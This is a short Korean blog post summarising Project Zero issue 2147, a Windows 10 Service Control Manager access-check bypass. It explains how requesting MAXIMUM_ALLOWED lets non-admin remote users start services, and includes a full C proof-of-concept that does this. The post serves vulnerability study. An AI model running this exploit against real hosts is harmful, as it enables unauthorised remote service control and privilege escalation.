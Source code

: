 ```yaml
---
title: "[하루한줄] Windows SCM Remote Access Check Limit Bypass EoP"
author: insu
tags: [insu, windows, scm, bypass, eop]
categories: [1day1line]
date: 2021-04-15 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[Issue 2147: Windows: SCM Remote Access Check Limit Bypass EoP](https://bugs.chromium.org/p/project-zero/issues/detail?id=2147)

## Target

- Windows 10 20H2

## Explain
Windows 10 1709 이후 원격으로 local admin group이 아닌 원격 사용자가 `SCM` 및 `service access`에 접근 할 수 없도록 적용되었습니다.

사용자가 local 관리자 그룹에 없는 경우 `OpenSCManager` 또는 `OpenService`에 전달된 `Access mask`가 `0xD0072`에 대해 `ScAccessCheckAndAudit`에서 검사됩니다. 만약 access mask에 access 권한이 있으면 SCM이 `access denied error`와 함께 거절합니다. 이렇게 하면 원격 사용자가 `SERVICE_START` 혹은 `SC_MANAGER_CREATE_SERVICE`를 사용 할 수 없습니다.

하지만 원하는 access 권한은 RPC 호출에서 `NtAccessCheckAndAuditAlarm`으로 전달되고 access 권한은 `Service Handle`에 다시 기록됩니다.

따라서 이 검증은 `MAXIMUM_ALLOWED`를 request 함으로써 우회할 수 있습니다. POC 코드는 다음과 같습니다.

```python
#include <stdio.h>
#include <windows.h>

int wmain(int argc, wchar_t** argv)
{
    if (argc < 3)
    {
        printf("Usage: HostName ServiceName\\n");
        return 1;
    }

    auto scm = OpenSCManager(argv[1], nullptr, MAXIMUM_ALLOWED);
    if (scm == nullptr)
    {
        printf("[ERROR]: Failed to open SCM error:%d\\n", GetLastError());
        return 0;
    }

    auto service = OpenService(scm, argv[2], SERVICE_START);
    if (service)
    {
        printf("[ERROR]: Was granted SERVICE_START when we didn't expect it. Maybe using the wrong user?\\n");
        return 0;
    }

    DWORD error = GetLastError();
    if (error == ERROR_SERVICE_DOES_NOT_EXIST)
    {
        printf("[ERROR]: Service doesn't exist.\\n");
        return 0;
    }

    if (error != ERROR_ACCESS_DENIED)
    {
        printf("[ERROR]: Expected ERROR_ACCESS_DENIED but got %d, the rest might not work.\\n", GetLastError());
    }

    service = OpenService(scm, argv[2], MAXIMUM_ALLOWED);
    if (service == nullptr)
    {
        printf("[ERROR]: Failed to open service error:%d\\n", GetLastError());
        return 0;
    }

    error = ERROR_SUCCESS;
    if (!StartService(service, 0, nullptr))
    {
        error = GetLastError();
    }

    switch (error)
    {
        case ERROR_ACCESS_DENIED:
            printf("[ERROR]: Got access denied error.\\n");
            break;
        case ERROR_SUCCESS:
            printf("[SUCCESS]: Successfully started service.\\n");
            break;
        case ERROR_SERVICE_DISABLED:
            printf("[SUCCESS]: Service was disabled but passed the access check.\\n");
            break;
        default:
            printf("[WARNING]: Didn't start service but didn't get back expected error:%d\\n", error);
    }

    return 0;
}
```


